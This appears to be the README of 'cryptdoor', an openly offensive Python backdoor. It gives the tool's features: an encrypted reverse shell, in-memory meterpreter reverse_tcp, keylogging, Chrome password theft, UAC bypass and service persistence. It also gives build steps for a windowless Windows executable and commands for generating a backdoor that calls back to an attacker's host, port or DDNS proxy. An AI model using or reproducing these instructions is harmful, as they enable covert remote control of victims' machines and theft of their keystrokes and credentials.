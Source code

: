cryptdoor
=========

AES encrypted python backdoor that communicates AES encrypted data.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is also implemented for windows using pyHook and the keystrokes are transmitted over the secure AES encrypted connection.
All communications apart from ones meterpreter makes are encrypted with AES.
On top of this the script itself is encrypted with AES and decrypts itself in memory (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

	"C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

	"C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

	pip install pyinstaller pycrypto

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

	pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py host port

You can add a -p to attempt automatic persistence like:

	./cryptdoor.py host port -p

host and port refer to the host and port of the listening server.

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the cryptdoor script from line 260-262, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying does not work without one.)

3. Then generate your backdoor in the normal way but replace the IP with your DDNS:

	./cryptdoor.py DDNS port



